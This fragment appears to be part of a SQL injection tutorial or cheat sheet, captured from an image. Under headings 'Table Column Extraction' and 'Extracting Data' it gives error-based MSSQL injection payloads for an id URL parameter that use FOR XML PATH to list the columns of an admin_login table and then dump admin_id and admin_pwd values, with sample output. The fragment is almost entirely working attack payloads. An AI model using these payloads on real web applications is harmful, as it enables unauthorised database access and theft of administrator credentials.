 **Table Column Extraction**

```
?id=4 and 1=(select column_name from information_schema.columns where table_name='admin_login' FOR XML PATH)--+
```

```
<row><column_name>Id</column_name></row><row><column_name>admin_id</column_name></row><row><column_name>admin_pwd</column_name></row>
```

**Extracting Data**

```
?id=4 and 1=(select admin_id,admin_pwd from admin_login FOR XML PATH)--+
```